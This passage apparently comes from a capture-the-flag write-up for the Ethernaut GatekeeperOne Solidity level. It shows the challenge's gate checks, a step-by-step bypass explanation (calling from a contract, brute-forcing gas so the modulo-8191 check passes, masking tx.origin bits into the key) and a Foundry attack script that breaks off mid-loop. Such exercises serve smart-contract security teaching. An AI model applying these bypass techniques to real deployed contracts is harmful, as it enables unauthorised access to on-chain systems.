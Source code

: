 ```solidity
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

**Goal:**

Make it past the gatekeeper and register as an entrant to pass this level.

**Explanation:**

1. We have to call the `enter()` function, without being revert by modifier checks.
2. We need to pass three modifier checks. We can simply pass `gateOne()` by calling it from another contract.
3. To bypass `gateTwo()` we need to send exact `gas` that should result the modulo 8191 to zero.
4. `gasLeft()` is a method which calculates the remaining gas after executing instructions before it invoked.
5. We can pass the amount of gas to be transferred to the external call. But we need to send exact amount of gas.
6. One thing that we can do is bruteforce. By randomly bruteforcing with different values of gas, we can pass this modifier check.
7. To pass the `gateThree()` we need to some calculations. It takes the `_gateKey` a bytes8 value as argument.
8. The modifiers checks the lower 32 bits of the gatekey after converting to uint64.
9. So, we can calculate the lower 16 bits of the `tx.orgin` and pad it with zeros to pass the gatThree and gateOne.
10. Two pass the gateTwo we can add random bits to the MSB position.

**Level13Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level13.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Attack {
    GatekeeperOne public instance =
        GatekeeperOne(0xd216C1041909516Dd89a471ECdb96aB3E7ae4Abd);

    function exploit() external {
        bytes8 gateKey = bytes8(uint64(uint160(tx.origin))) &
            0xFFFFFFFF0000FFFF;
        for (uint256 i = 0; i < 300; i++) {
            uint256 totalgas = i + (8191 * 3);
            (bool success, ) = address(instance).call{gas: totalgas}(
                abi.encodeWithSignature("enter(bytes8)", gateKey)
            );
            if (success) {
                break;
```